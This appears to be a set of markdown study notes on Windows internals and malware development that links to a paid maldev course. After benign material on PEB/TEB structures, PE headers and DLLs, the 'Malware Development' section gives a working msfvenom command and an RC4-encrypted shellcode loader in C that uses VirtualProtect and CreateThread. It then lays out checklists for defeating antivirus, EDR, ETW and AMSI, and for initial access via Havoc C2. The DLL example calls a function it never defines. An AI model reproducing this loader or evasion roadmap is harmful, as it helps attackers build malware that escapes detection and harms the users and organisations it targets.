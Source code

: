 ## Windows Internals

### CPU Modes

A processor running a Windows OS operates in two modes:
- User mode
- Kernel mode

When a user application is running, it has to follow a certain "functional flow", going from user to kernel mode:
- The process calls a WinAPI contained in a DLL loaded in memory
- The DLL calls its `Nt` version contained in the `NTDLL.dll` file, which executes a `syscall`
- The `syscall` executes primitive OS modules to complete the task

A user process can directly call a NT function, provided that it's loaded in memory.

### PIDs & TIDs
The `PEB` is a data structure in Windows containing a process's parameters, startup information, and loaded DLLs. It also stores the PID and the path to the executable, the full PEB structure is not documented by Microsoft, but well known in other sources.

```C
typedef struct _PEB {
  BYTE                          BeingDebugged;
  PPEB_LDR_DATA                 Ldr;
  PRTL_USER_PROCESS_PARAMETERS  ProcessParameters;
  PVOID                         AtlThunkSListPtr;
  ULONG                         AtlThunkSListPtr32;
  PPS_POST_PROCESS_INIT_ROUTINE PostProcessInitRoutine;
  ULONG                         SessionId;
} PEB, *PPEB;
```

Each process is made of multiple concurrent "threads", sets of instructions that can be executed independently within the process. Each thread can communicate and share data with each other, and they also have a dedicated struct called `TEB` containing info and a unique TID value.

```C
typedef struct _TEB {
  PPEB  ProcessEnvironmentBlock;
  PVOID TlsSlots[64];
  PVOID TlsExpansionSlots;
} TEB, *PTEB;
```

### PE Structure
A `PE` file has the following organized data structures called "headers", it's possible to review some `.exe` files using PE-Bear and have a feeling for where these headers are:

- DOS Header
  - Signature (`MZ`)
  - Offset to NT (`0x3C`)
- NT Headers
    - Signature (`PE`)
    - File Header
    - Optional Header
- Data Directories
- Binary Segments
    - `.data / .rdata`
    - `.text`
    - `.rsrc`

A detailed description of each is referenced [here](https://maldevacademy.com/modules/8?view=blocks)

### DLLs
Custom DLLs can be created in a project, by specifying an entry point and a list of exportable functions. Before compiling the project, one has to remove C++ pre-compiled headers with [this guide](https://maldevacademy.com/modules/9?view=blocks)
```C
#include <Windows.h>
#include <stdio.h>

// Exported function
VOID HelloWorld() {
    MessageBoxA(NULL, "Hello world!", "Caption", MB_OK | MB_ICONINFORMATION);
}

// Entry point condition code
BOOL APIENTRY DllMain (HMODULE hModule, DWORD dwReason, LPVOID lpReserved){
    switch (dwReason){
        case DLL_PROCESS_ATTACH: {
            MsgBoxPayload();
            break;
        };
        case DLL_THREAD_ATTACH:
        case DLL_THREAD_DETACH:
        case DLL_PROCESS_DETACH:
            break;
    }

    return TRUE;
}
```

In a executable code, you can dynamically link and invoke DLL functions, each one having a corresponding `typedef` with the correct arguments (from the docs)
```C
#include <windows.h>

typedef int (WINAPI* MessageBoxAPointer)(
  HWND          hWnd,
  LPCSTR        lpText,
  LPCSTR        lpCaption,
  UINT          uType
);

void call(){
    MessageBoxAPointer pMessageBoxA = GetProcAddress(LoadLibraryA("user32.dll"), "MessageBoxA");
    pMessageBoxA(NULL, "Text", "Caption", MB_OK);
}
```

## Malware Development - Part 1

### Basic Shellcode Execution
The simplest way of executing a malicious payload is through a shellcode in the `.data` section of a PE, which then gets executed by a thread in the process. We will now see an example of the simplest encrypted/obfuscated execution flow.

First, use `HellShell` to produce an encrypted payload with its decryptor, RC4 recommended as it allows key obfuscation and NTAPI calls. An alternative would be to use the `ipv6` and `uuid` options, to obfuscate the payload rather than encrypt it.
- `msfvenom -p windows/x64/exec CMD=calc -f raw ExitFunc=thread -o payload.bin`
- `.\HellShell.exe payload.bin rc4`

The output of `HellShell` will contain the code necessary to decrypt the payload, create a `main.c` file with its content, then add the following `main()` function.
```C
int main() {
    // Decrypt the payload
    BOOL enc_stat = Rc4EncryptionViaSystemFunc032(Rc4Key, Rc4CipherText, sizeof(Rc4Key), sizeof(Rc4CipherText));
    SIZE_T sDeobfuscatedSize = sizeof(Rc4CipherText);

    // Mark memory region of type RX
    DWORD dwOldProtection = NULL;
    VirtualProtect(Rc4CipherText, sDeobfuscatedSize, PAGE_EXECUTE_READ, &dwOldProtection);

    // Spawn a thread to execute payload
    CreateThread(NULL, NULL, Rc4CipherText, NULL, NULL, NULL);

    return 0;
}
```

### Anti Reverse-Engineering
To make our shellcode execution hard to analyze and the malware more legit, we can employ the following techniques, as an excercise, improve the HellShell payload loader by using the following techniques:
- [RC4_Key-Guarding](https://maldevacademy.com/modules/78)
- [Binary Signing](https://maldevacademy.com/modules/32)
- [Entropy Decrease](https://maldevacademy.com/modules/76)
- [CRT Removal](https://maldevacademy.com/modules/79)
- [Metadata Spoofing](https://maldevacademy.com/new/modules/1)
- [Size Bloating](https://maldevacademy.com/new/modules/6?view=blocks)
- [IAT Spoofing](https://maldevacademy.com/modules/80)
- [API Hashing](https://maldevacademy.com/modules/57)
- [String Hashing](https://maldevacademy.com/modules/51)
- [PPID Spoofing](https://maldevacademy.com/modules/47)
- [Argument Spoofing](https://maldevacademy.com/modules/49)
- [Flow Hijacking](https://maldevacademy.com/modules/46)
- [VM Evasion](https://maldevacademy.com/modules/73)
- [Debug Escape](https://maldevacademy.com/modules/71)

### AV Evasion
While our malware is now functional, hard to manually analyze and camouflaged in a benign way, it's time to obfuscate the inner functional calls to make AV solutions useless.

- Avoiding `CreateThread()`
  - APC Injections
  - Local Thread Hijacking
  - Callback Execution
  - Direct/Indirect NT Calls
- Avoiding `VirtualAlloc()`
  - Local Mapping Injection
  - Local Function Stomping
  - Direct/Indirect NT Calls
 
### EDR Evasion

Our malware is yet not able to defend against active DLL injections and API hooking, used by advanced EDRs. We can circumvent this by applying the following techniques:
- [Introduction to EDR](https://maldevacademy.com/modules/82?view=blocks)
- [Indirect Syscalling](https://maldevacademy.com/modules/89)
- [Anti-DLL Injection](https://maldevacademy.com/modules/90)
- [Anti-Process Hooking](https://maldevacademy.com/modules/91)
- [DRM-Signing](https://maldevacademy.com/new/modules/21?view=blocks)

### Event Tracing Evasion
To make the malware leave no event logs on Windows
- [ETW Introduction](https://maldevacademy.com/new/modules/12?view=blocks)
- [ETW Session Hijacking](https://maldevacademy.com/new/modules/17?view=blocks)

### AMSI Evasion
To complement malware executables, powershell malwares can be used sometimes. For them, it is important to know how to bypass AMSI
- [AMSI Intro](https://maldevacademy.com/new/modules/18?view=blocks)


### Initial Access
There are techniques to make the delivery of the malware efficient and more difficult to analyze:
- [Havoc C&C Usage](https://maldevacademy.com/new/modules/22?view=blocks)
- [Protocol Handlers](https://maldevacademy.com/new/modules/7?view=blocks)
- [File Extensions](https://maldevacademy.com/new/modules/8?view=blocks)
